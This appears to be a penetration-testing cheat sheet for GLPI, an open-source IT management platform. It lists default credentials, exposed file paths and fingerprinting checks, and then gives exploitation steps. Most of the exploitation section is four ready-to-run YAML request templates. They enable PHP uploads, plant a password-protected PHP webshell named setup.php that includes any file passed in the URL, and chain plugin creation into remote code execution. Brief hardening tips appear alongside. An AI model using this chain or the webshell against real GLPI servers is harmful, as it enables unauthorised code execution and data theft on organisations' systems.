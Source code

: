 # GLPi IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/) <small>(4.2k ⭐)</small>
* [Github](https://github.com/glpi-project/glpi) <small>(4.2k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [ ] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [ ] `/files/_sessions/` - PHP sessions
  * [ ] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [ ] `/version/` - directory listing may be enabled
* [ ] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPi version can be found in two places.

* [x] Check for a file such as `/version/10.0.10`
* [x] Check `About` for GLPI version once connected
* [x] Check `/ajax/telemetry.php` for versions once connected
* [x] Detect GLPI Install Page
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — Weak Credentials

We may get a foothold if default credentials were not changed.

* Test all default credentials

🛡️ Use strong passwords and disable default accounts.

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* Navigate to `/files/_session/` and try every cookie
* Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Observer+]`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>

🛡️ It seems in recent versions, they banned a few extensions.
</div><div>

#### GLPI Exploitation — LFI To RCE

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Super Admin]`.

<details class="details-n">
<summary>Enable Plugin Creation</summary>

```yaml!
id: glpi-enable-plugin-creation

info:
  name: GLPI Enable Plugin Creation
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="
        name: csrf
        internal: true

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/profile.form.php"

    headers:
      Content-Type: "application/x-www-form-urlencoded"

    # Default is "3", to enabled plugins, we use "31"
    # (enabled on id=4 which is super-admin)
    body: "_config%5B31_0%5D=1&id=4&update=Save&_glpi_csrf_token={{token}}"

    matchers:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Create Plugin With Arbitrary PHP File</summary>

```yaml!
id: glpi-lfi-using-plugins

info:
  name: GLPI LFI using Plugins
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/kanban.php?action=add_item&itemtype=Plugin"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "application/x-www-form-urlencoded"

    body: "action=add_item&inputs=directory%3d../files/_tmp%26name%3dpwned%26version%3d1.0.0%26author%3dPwned"

    extractors:
      - type: dsl
        dsl:
          - status_code_2
```
</details>

📚 Original article: [OCD Exploit](https://sensepost.com/blog/2024/from-a-glpi-patch-bypass-to-rce/)
</div></div>